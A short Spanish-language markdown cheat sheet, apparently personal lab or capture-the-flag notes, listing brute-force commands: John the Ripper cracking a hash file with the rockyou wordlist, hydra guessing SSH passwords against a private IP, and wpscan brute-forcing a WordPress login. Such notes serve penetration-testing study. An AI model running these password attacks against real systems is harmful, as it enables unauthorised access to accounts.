 # Fuerza bruta

Aquí se almacenan los comandos utilizados para hacer `fuerza bruta` a medida que los vamos descubriendo.

## john

Romper hash almacenado en fichero

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

## hydra

Romper ssh para un usuario.

```bash
hydra -l pepe -P /usr/share/wordlists/rockyou.txt ssh://192.168.11.166 
```

Romper ssh para listado de usuarios.

```bash
hydra -L users -P /usr/share/wordlists/rockyou.txt ssh://192.168.11.166 
```

## WPSCAN

Fuerza bruta teniendo un usuario:

```bash
wpscan --url https://10.10.103.70/wp-login.php -U Elliot -P /usr/share/wordlists/rockyou.txt  

```